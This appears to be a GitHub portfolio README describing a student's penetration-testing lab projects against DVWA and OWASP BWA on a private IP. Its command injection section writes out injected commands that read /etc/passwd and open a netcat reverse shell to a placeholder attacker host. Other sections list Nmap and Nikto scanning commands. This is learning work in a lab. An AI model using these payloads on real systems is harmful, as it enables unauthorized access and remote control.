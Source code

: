 # 🔐 Selvakumar's Cybersecurity Projects Portfolio

![Status](https://img.shields.io/badge/Status-Active-brightgreen)
![Focus](https://img.shields.io/badge/Focus-Web%20Security%20%7C%20Pentesting-blue)
![Tools](https://img.shields.io/badge/Tools-Burp%20Suite%2C%20DVWA%2C%20Kali%20Linux%2C%20OWASP%20BWA%2C%20Nmap-orange)
![Language](https://img.shields.io/badge/Language-MD%2C%20PHP%2C%20Linux-yellow)

---

## 📂 CS Projects Collection

## 📑 Table of Contents
1. [Broken Authentication Security Lab Project](#1-broken-authentication-security-lab-project)
2. [Command Injection Project](#2-command-injection-project)
3. [Information Gathering & Web Enumeration Project](#3-information-gathering--web-enumeration-project)
4. [Burp Suite Web Application Testing Setup](#4-burp-suite-web-application-testing-setup)
5. [DVWA Local Setup Project](#5-dvwa-local-setup-project)
6. [Nmap Vulnerability Scanning Project](#6-nmap-vulnerability-scanning-project)
7. [Conclusion](#7-conclusion)

---

## 1. Broken Authentication Security Lab Project

### Executive Summary
Broken Authentication is one of the OWASP Top 10 vulnerabilities. It occurs when applications improperly implement login, session, or password reset mechanisms, allowing attackers to compromise accounts.  

In this lab, we tested an intentionally vulnerable OWASP web application at `192.168.29.186` using Burp Suite. The goal was to identify authentication flaws, demonstrate them safely in a lab, and provide security recommendations.

### Lab Setup
- **Target VM:** OWASP DVWA / BWA / Juice Shop at `192.168.29.186`  
- **Attacker VM:** Kali Linux with Burp Suite Community Edition  
- **Browser:** Firefox with Burp proxy (`127.0.0.1:8080`)  
- **Test Accounts:** victim:test123, attacker:hacker123  
- **Network:** Host-only adapter (`192.168.29.0/24`)  

---

## 2. Command Injection Project

### Lab Setup
- **OS:** Kali Linux (attacker), OWASP DVWA/BWA (victim)  
- **Target IP:** `192.168.29.186`  
- **Tools:** Burp Suite, Netcat, Browser, Terminal  

### Exploitation Steps
1. Accessed DVWA Command Injection module at `192.168.29.186`.  
2. Entered `127.0.0.1` (test).  
3. Injected: `127.0.0.1 && whoami`.  
4. Extracted sensitive file: `127.0.0.1 && cat /etc/passwd`.  
5. Reverse shell: `127.0.0.1 && nc -e /bin/bash attacker_ip 4444`.  

---

## 3. Information Gathering & Web Enumeration Project

### Objective
Perform information gathering & enumeration on **OWASP BWA at `192.168.29.186`**.

### Steps
- **Ping Target** → `ping 192.168.29.186`  
- **DNS Enumeration** → `nslookup 192.168.29.186`, `host 192.168.29.186`  
- **Nmap Scans** →  
  ```bash
  nmap -sS 192.168.29.186
  nmap -A 192.168.29.186
  nmap --script vuln 192.168.29.186
WhatWeb → whatweb http://192.168.29.186

Dirb → dirb http://192.168.29.186

Nikto → nikto -h http://192.168.29.186

4. Burp Suite Web Application Testing Setup
Objective
Set up Burp Suite on Kali Linux to intercept traffic from Firefox & test OWASP applications at 192.168.29.186.

Steps
Configured Firefox proxy → 127.0.0.1:8080

Installed Burp CA Certificate

Intercepted traffic from http://192.168.29.186 (vulnerable app)

5. DVWA Local Setup Project
Setup Steps
Installed Apache2, MariaDB, PHP, Git on Kali Linux.

Cloned DVWA from GitHub.

Configured config.inc.php with DB creds.

Accessed DVWA at:

cpp

http://192.168.29.186/DVWA
6. Nmap Vulnerability Scanning Project
Objective
Use Nmap to scan local host 192.168.29.186 for open ports, services, and vulnerabilities.

Workflow Diagram
mermaid

flowchart LR
    A[Ping Scan<br/>nmap -sn 192.168.29.186] --> B[Port Scan<br/>nmap -sS -p- 192.168.29.186]
    B --> C[Service/Version Detection<br/>nmap -sV 192.168.29.186]
    C --> D[OS Detection<br/>nmap -O 192.168.29.186]
    D --> E[Aggressive Scan<br/>nmap -A 192.168.29.186]
    E --> F[Vulnerability Scripts<br/>nmap --script vuln 192.168.29.186]
    F --> G[Analyze & Report]
Commands
bash

nmap -sn 192.168.29.186
nmap -sS -p- 192.168.29.186
nmap -sV 192.168.29.186
nmap -O 192.168.29.186
nmap -A 192.168.29.186
nmap --script vuln 192.168.29.186
Sample Output (Fictional)
pgsql

21/tcp open ftp  vsftpd 2.3.4
22/tcp open ssh  OpenSSH 7.2p2
80/tcp open http Apache 2.4.18
139/tcp open smb  Samba 3.X-4.X

| ftp-vsftpd-backdoor: Vulnerable version detected!
| http-dombased-xss: Potential DOM-based XSS vulnerability found.
| smb-vuln-ms17-010: VULNERABLE: EternalBlue
7. Conclusion
This portfolio demonstrates hands-on cybersecurity lab projects using the OWASP target at 192.168.29.186.

It includes:

Authentication flaws

Command injection

Reconnaissance & enumeration

Traffic interception with Burp

Vulnerable lab setup (DVWA)

Vulnerability scanning with Nmap
